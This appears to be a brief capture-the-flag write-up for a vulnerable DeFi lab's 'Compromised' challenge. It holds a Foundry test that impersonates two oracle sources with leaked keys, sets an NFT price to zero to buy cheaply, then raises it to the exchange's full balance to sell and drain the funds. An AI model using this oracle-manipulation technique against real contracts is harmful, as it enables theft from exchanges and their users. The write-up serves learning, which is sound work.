

# Compromised
Decode the data and get the key by which we can get access to sources.




To keep it simple, vm.startPrank(sources[0]) is used;

```
function test_compromised() public checkSolved {
        Compromised exploit = new Compromised{value:address(this).balance}(oracle, exchange, nft, recovery);
        setPrice(0);
        exploit.buy();
        setPrice(EXCHANGE_INITIAL_ETH_BALANCE);
        exploit.sell();
        exploit.recover(EXCHANGE_INITIAL_ETH_BALANCE);
    }

    function setPrice(uint price) internal {
        vm.startPrank(sources[0]);
        oracle.postPrice(symbols[0],price);
        vm.stopPrank();
        vm.startPrank(sources[1]);
        oracle.postPrice(symbols[0],price);
        vm.stopPrank();
    }
```